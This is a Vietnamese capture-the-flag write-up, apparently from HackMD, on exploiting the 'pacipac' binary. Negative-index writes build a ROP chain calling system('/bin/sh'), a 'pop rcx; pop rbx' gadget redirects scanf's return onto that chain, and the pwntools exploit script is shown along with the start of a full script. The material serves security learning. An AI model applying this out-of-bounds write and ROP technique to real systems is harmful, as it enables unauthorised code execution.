 > ![{48EDCD74-4B96-4025-ABD5-F242D9F6C20B}](https://hackmd.io/_uploads/SkqTyLZoyg.png)
> Nên ta buộc phải lui index xuống là [-2; -1; 0] và vấn đề gặp phải là scanf return không ret trực tiếp vào vùng dữ liệu ta đã ghi.
> ![{59D2785A-EC07-4F2B-9CC2-BBEF0E52F69F}](https://hackmd.io/_uploads/S1rSlIbj1l.png)
> Vậy vấn đề cuối cùng ta giải quyết sẽ là làm sao để scanf ret vào nơi ta ghi dữ liệu và vì chỉ được nhập số nên ta sẽ nhập vào địa chỉ của một gadget thích hợp để làm điều đó.
> Sau một hồi tìm kiếm (thanks to A WAN=))) thì ta tìm được gadget để loại bỏ được 2 giá trị đó là pop rcx; pop rbx vì khi thực thi sẽ tiến hành đẩy 2 giá trị dư kia vào thanh ghi rcx và rbx và rsp lúc này sẽ trỏ trực tiếp đến lệnh mà ta đã ghi vào trước đó. Ta có script:
> ```python= 
> #get_shell = p64(ret) + p64(prdi) + p64(next(libc.seacrh("/bin/sh\0"))) + p64(libc.sym.system)
> binsh = next(libc.search("/bin/sh\0"))
> # sla(b'> ',b'2')
> # sla(b'idx: ',b'-2') # #idx = (adr[idx=0] - adr[adx=n])/8
> # sla(b'Enter price: ',f'{ret}'.encode())
> 
> sla(b'> ',b'2')
> sla(b'idx: ',b'-2')
> sla(b'Enter price: ',f'{prdi}'.encode())
> 
> sla(b'> ',b'2')
> sla(b'idx: ',b'-1')
> sla(b'Enter price: ',f'{binsh}'.encode())
> 
> sla(b'> ',b'2')
> sla(b'idx: ',b'0')
> sla(b'Enter price: ',f'{libc.sym.system}'.encode())
> 
> scanf ret controlling
> sla(b'> ',b'2')
> sla(b'idx: ',b'-5')
> sla(b'Enter price: ',f'{prcx_rbx}'.encode())
> ```
- Ta tiến hành cho chạy thử script:
![{C479F687-62B1-47C4-9E6C-873406522746}](https://hackmd.io/_uploads/SySC-IbsJl.png)
- Vậy ta đã có được shell

=> **Challenge hoàn thành**

## FULLSCRIPT
```python=
#!/usr/bin/env python3

from pwn import *

exe = ELF('pacipac_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.p.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
r = lambda nbytes: p.recv(nbytes)
```